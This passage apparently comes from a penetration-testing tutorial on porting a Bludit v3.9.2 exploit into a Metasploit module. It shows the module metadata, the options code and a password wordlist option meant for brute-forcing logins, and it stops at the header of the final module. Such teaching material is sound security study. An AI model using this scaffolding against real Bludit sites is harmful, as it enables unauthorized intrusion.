           ['URL', 'https://github.com/bludit/bludit/commit/a9640ff6b5f2c0fa770ad7758daf24fec6fbf3f5#diff-6f5ea518e6fc98fb4c16830bbf9f5dac' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "2019-09-07",
      'DefaultTarget'  => 0))

After the general identification information is filled in, we can move over to the options menu variables:
Proof-of-Concept - Functions
Code: ruby

 register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Bludit', '/']),
        OptString.new('BLUDITUSER', [true, 'The username for Bludit']),
        OptString.new('BLUDITPASS', [true, 'The password for Bludit'])
      ])
  end

Looking back at our exploit, we see that a wordlist will be required instead of the BLUDITPASS variable for the module to brute-force the passwords for the same username. It would look something like the following snippet:
Code: ruby

OptPath.new('PASSWORDS', [ true, 'The list of passwords',
          File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])

The rest of the exploit code needs to be adjusted according to the classes, methods, and variables used in the porting to the Metasploit Framework for the module to work in the end. The final version of the module would look like this:
Proof-of-Concept
Code: ruby

##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
